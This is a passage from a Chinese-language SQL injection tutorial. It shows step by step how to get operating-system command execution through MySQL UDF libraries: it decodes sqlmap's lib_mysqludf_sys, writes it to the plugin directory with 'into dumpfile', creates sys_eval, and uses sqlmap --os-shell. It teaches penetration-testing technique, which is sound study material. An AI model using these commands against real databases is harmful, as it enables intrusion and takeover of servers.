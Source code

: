 -   sys\_set()，创建或修改一个环境变量
    

#### [](#1221-udf-%E5%BA%93%E6%96%87%E4%BB%B6%E8%8E%B7%E5%8F%96)12.2.1 UDF 库文件获取

[https://github.com/mysqludf/lib\_mysqludf\_sys](https://github.com/mysqludf/lib_mysqludf_sys)

sqlmap/data/udf/mysql/

sqlmap 下的文件经过编码，需要使用 sqlmap/extra/cloak 目录下的 cloak.py 文件进行解码

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br># 解码文件<br>python cloak.py -d -i /path/to/sqlmap/data/udf/mysql/linux/64/lib_mysqludf_sys.so_ -o lib_linux.so<br>``` |

#### [](#1222-udf-%E5%BA%93%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)12.2.2 UDF 库文件写入

将 so 文件转成 16 进制，以 16 进制编码形式写入

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select unhex('???') into dumpfile '/usr/lib/mysql/plugin/lib_linux.so'<br>``` |

#### [](#1223-dumpfile-vs-outfile)12.2.3 dumpfile vs. outfile

若我们想把一个可执行 2 进制文件用 into outfile 函数导出事实上导出后就会被破坏。

因为 into outfile 函数会在行末端写入新行，更致命的是会转义换行符，这样的话这个 2 进制可执行文件就会被破坏。

这时候我们用 into dumpfile 就能导出一个完整能执行的 2 进制文件 into dumpfile 函数不对任何列或行进行终止，也不执行任何转义处理。

#### [](#1224-%E8%87%AA%E5%AE%9A%E4%B9%89%E5%87%BD%E6%95%B0)12.2.4 自定义函数

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```sql<br>create function sys_eval returns string soname "lib_linux.so";<br>select sys_eval('ifconfig');<br>``` |

### [](#123-%E8%87%AA%E5%8A%A8%E5%8C%96%E5%B7%A5%E5%85%B7)12.3 自动化工具

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>sqlmap -u "url" --os-shell<br>sqlmap -u "url" --os-cmd=ifconfig<br>``` |

## [](#13-%E6%B3%A8%E5%85%A5%E6%8A%80%E5%B7%A7)13 注入技巧

从 SQL 语法角度，从不同的注入点位置说明 SQL 注入的技巧

### [](#131-select-%E6%B3%A8%E5%85%A5)13.1 SELECT 注入
